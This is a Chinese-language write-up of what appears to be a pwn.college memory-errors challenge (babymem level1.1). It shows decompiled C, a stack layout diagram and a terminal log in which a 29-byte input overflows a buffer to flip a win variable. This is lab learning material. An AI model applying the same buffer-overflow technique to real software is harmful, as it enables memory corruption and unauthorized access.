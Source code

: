 ```c
  puts("Goodbye!");
  return 0LL;
}
```

栈结构，不知道为什么反汇编出来的`v5`是`v5= (_DWORD*)v7 + 1`。按照汇编语言来看的话`lea     rax, [rbp+var_30] \ add     rax, 1Ch \ mov     [rbp+var_38], rax`,应该是指向`0x1005C`大小为8个字节的数据。不知道为什么ida反编译的结果会跟v7联系起来。

```text
rsp\rbp --> 0x10000
        --> 0x10008
        --> 0x10010
        --> 0x10018  
        --> 0x10020
        --> 0x10028 
        --> 0x10030
        --> 0x10038 v5
        --> 0x10040 v6[0]  <-----buf
        --> 0x10048 v6[1]
        --> 0x10050 v6[2]
        --> 0x10058 v7[0]
                        0x1005C  <-----v5
        --> 0x10060 v7[1]
        --> 0x10068 v7[2]
rbp ------- 0x10070  old rbp
```

对应的结果跟上述描述一致，当输入超过28个字节的时候，可以显示flag。当输入等于28个字节的时候，不能显示flag。

```bash

hacker@memory-errors~level1-1:~/memory/level1$ ./babymem_level1.1
###
### Welcome to ./babymem_level1.1!
###

Payload size: 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Send your payload (up to 18446744073709551615 bytes)!
ERROR: Failed to read input -- Bad address!
hacker@memory-errors~level1-1:~/memory/level1$ ./babymem_level1.1
###
### Welcome to ./babymem_level1.1!
###

Payload size: 28
Send your payload (up to 28 bytes)!
11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Goodbye!

hacker@memory-errors~level1-1:~/memory/level1$ ./babymem_level1.1
###
### Welcome to ./babymem_level1.1!
###

Payload size: 29
Send your payload (up to 29 bytes)!
11111111111111111111111111111111111111111111111111111111111111111111111111111111
You win! Here is your flag:

  ERROR: Failed to open the flag -- Permission denied!
  Your effective user id is not 0!
  You must directly run the suid binary in order to have the correct permissions!
Goodbye!
```
